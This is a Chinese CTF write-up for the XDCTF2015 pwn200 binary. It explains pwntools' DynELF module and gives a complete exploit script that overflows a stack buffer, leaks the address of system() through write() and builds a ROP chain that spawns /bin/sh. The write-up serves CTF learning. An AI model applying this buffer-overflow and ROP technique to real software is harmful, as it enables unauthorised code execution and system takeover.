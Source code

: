```yaml
---
title: XDCTF2015-pwn200(DynELF)'
date: 2018-03-18 19:40:11
tags: pwn
---
```

该题用到了 DynELF 技术  

DynELF是pwntools中专门用来应对无libc情况的漏洞利用模块，其基本代码框架如下。
```
p = process('./xxx')
def leak(address):
  #各种预处理
  payload = "xxxxxxxx" + address + "xxxxxxxx"
  p.send(payload)
  #各种处理
  data = p.recv(4)
  return data
d = DynELF(leak, elf=ELF("./xxx"))      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
再看read 函数：
定义函数：ssize_t read(int fd, void * buf, size_t count);  
函数说明：read()会把参数fd 所指的文件传送count 个字节到buf 指针所指的内存中.  若参数count 为0, 则read()不会有作用并返回0. 返回值为实际读取到的字节数, 如果返回0, 表示已到达文件尾或是无可读取的数据,此外文件读写位置会随读取到的字节移动.  

思路：   
1.调用main函数循环利用    
2.泄露出system地址   
3.写入”/bin/sh”    
4.调用system获取shell，在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress。保证堆栈平衡

查找gadget：
`ROPgadget --binary pwn200 --only "pop|ret"`   
使用：
`0x08048649 : pop esi ; pop edi ; pop ebp ; ret`   

```
from pwn import *
elf = ELF('./pwn200')
io = process('./pwn200')
write_plt = elf.plt['write'] # symbols 也可以
read_plt = elf.plt['read']
main_addr = 0x80483e0 
bss_addr = elf.bss() #用来存储'/bin/sh'
pppr = 0x08048649 

def leak(addr):
    io.recvuntil('Welcome to XDCTF2015~!\n')
    payload = 'a'*112+p32(write_plt)+p32(main_addr)+p32(1)+p32(addr)+p32(4)
    io.sendline(payload)
    msg = io.recv(4)
    return msg

dyn = DynELF(leak,elf=elf)  
sys_addr = dyn.lookup('system','libc')
payload = 'a'*112+p32(read_plt)+p32(pppr)+p32(0)+p32(bss_addr)+p32(8)+p32(sys_addr)+p32(main_addr)+p32(bss_addr)
io.sendline(payload)
io.sendline('/bin/sh\0')
io.interactive()
```
